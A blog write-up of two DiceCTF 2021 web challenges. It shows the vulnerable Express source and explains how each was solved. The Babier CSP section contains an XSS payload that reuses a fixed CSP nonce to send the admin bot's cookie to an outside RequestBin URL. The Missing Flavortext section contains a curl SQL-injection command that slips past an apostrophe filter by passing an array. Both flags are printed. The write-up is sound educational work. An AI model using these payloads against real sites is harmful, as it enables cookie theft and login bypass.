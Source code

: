 ```yaml
---
title: DiceCTF 2021
date: 2021-02-08
tags:
  - Cryptography
  - Exploits
  - Writeups
banner: ./dicectf-2021.jpg
slug: /dicectf-2021
---
```


This weekend, I participated in [DiceCTF 2021][dicectf] just for fun. I wanted to write about a couple of challenges that I found interesting, along with the processes I went through to solve them.

<h2 id="babier-csp">Babier CSP</h2>

This challenge requires us to steal a cookie set on an admin bot. It provides us with the source of a backend that both serves a simple page and generates the secret that the admin sets its cookie to. From a quick glance at the page that gets served, it seems that an [XSS attack][xss] might be viable:

```js {8,13,16,26-27}
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
})
```

From the above-highlighted points of interest, two things are immediately clear:

1. If the page is loaded with a `name` query param present, it will be injected directly into the source.
2. A `NONCE` constant is generated once at application startup and set as the nonce for the content security policy `script-src` directive.

If you try visiting the page with a crafted query such as <https://babier-csp.dicec.tf/?name=%3C/h1%3E%3Cem%3EUh%20oh...%3C/em%3E%3Cbr%3E>, you'll be able to see the potential for exploitation.

![The simple page affected by an XSS attack.](uh-oh.png)

If you try the same thing with script tags, however, you'll receive a CSP error in the console. Fortunately, because the `NONCE` constant is consistent between page loads, you can simply tack it on to each script tag using the `nonce` attribute.

From here, it's evident that we can steal the cookie from the admin bot by getting it to visit the XSS vulnerable page. A simple payload like the following should do:

```html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">
  document.location = "https://example.x.pipedream.net/?" + document.cookie;
</script>
```

Now just spin up a new [RequestBin][requestbin], URL encode your payload, and submit it to the admin bot.

![The admin bot request caught by RequestBin.](requestbin.png)

There's our secret! As per the source code, we should use it as a route name to get the flag: `dice{web_1s_a_stat3_0f_grac3_857720}`.

## Missing Flavortext

This was an interesting challenge with a clear focus on [SQL injection][sqli]. Similar to [Babier CSP](#babier-csp), we're given a simple page to visit and the source of the backend that serves it. The page contains a login form that posts data to a `/login` route. If you were to provide the correct credentials, it would send back the flag. Unfortunately, since the password is randomized at application startup, we're going to need to find a different way in...

```js {13-16,33-35,38-41}
const crypto = require('crypto');
const db = require('better-sqlite3')('db.sqlite3')

// remake the `users` table
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  username TEXT,
  password TEXT
);`);

// add an admin user with a random password
db.exec(`INSERT INTO users (username, password) VALUES (
  'admin',
  '${crypto.randomBytes(16).toString('hex')}'
)`);

const express = require('express');
const bodyParser = require('body-parser');

const app = express();

// parse json and serve static files
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('static'));

// login route
app.post('/login', (req, res) => {
  if (!req.body.username || !req.body.password) {
    return res.redirect('/');
  }

  if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
    return res.redirect('/');
  }

  // see if user is in database
  const query = `SELECT id FROM users WHERE
    username = '${req.body.username}' AND
    password = '${req.body.password}'
  `;

  let id;
  try { id = db.prepare(query).get()?.id } catch {
    return res.redirect('/');
  }

  // correct login
  if (id) return res.sendFile('flag.html', { root: __dirname });

  // incorrect login
  return res.redirect('/');
});

app.listen(3000);
```

There are two key issues in this code that we're going to exploit. The first is in how the SQL query is created on lines 38–41. Interpolating raw user inputs in that fashion is a massive security hole. The only "sanitization" applied to it is in the few lines before, where the credentials are rejected if either one contains an apostrophe character. At a first glance, this seems to prevent us from executing the standard SQLi technique of escaping from an input and modifying the query that way. Fortunately, the second key issue makes it possible:

```js
app.use(bodyParser.urlencoded({ extended: true }));
```

By opting into the extended mode of the URL-encoded body-parser middleware, the server will now accept extended input types such as arrays and objects. If we modify the username or password in such a way, we can alter the behavior of the `v.includes('\'')` method call to work in our favor.

```bash
curl -X "POST" "https://missing-flavortext.dicec.tf/login" \
  --data-urlencode "username=admin" \
  --data-urlencode "password[]=' OR 1 --"
```

Because arrays with a single element are cleanly converted to strings in JavaScript, we'll end up skipping the apostrophe check while still containing one. This will lead to our malformed payload being constructed as we want:

```sql
SELECT id FROM users WHERE
  username = 'admin' AND
  password = '' OR 1 --'
```

This will correctly select the id of the admin user, skipping the intended credential check and returning the flag: `dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}`.

[dicectf]: https://ctf.dicega.ng
[requestbin]: https://requestbin.com
[sqli]: https://owasp.org/www-community/attacks/SQL_Injection
[xss]: https://owasp.org/www-community/attacks/xss/
